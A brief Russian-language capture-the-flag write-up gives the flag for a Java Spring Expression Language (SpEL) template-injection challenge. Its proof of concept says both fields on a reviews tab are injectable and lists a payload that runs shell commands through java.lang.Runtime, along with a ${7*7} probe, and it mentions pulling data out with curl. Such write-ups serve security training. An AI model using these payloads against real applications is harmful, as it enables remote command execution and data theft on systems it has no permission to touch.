 #Флаг
SSTI_JAVA_SPEL_THIS_INJECTION


# POC

1) Перейти на вкладку reviews - оба поля уязвимы к SPEL инъекции.
1) ${T(java.lang.Runtime).getRuntime().exec('ls')}
2) ${7*7}


Данные можно вытащить с помощью CURL

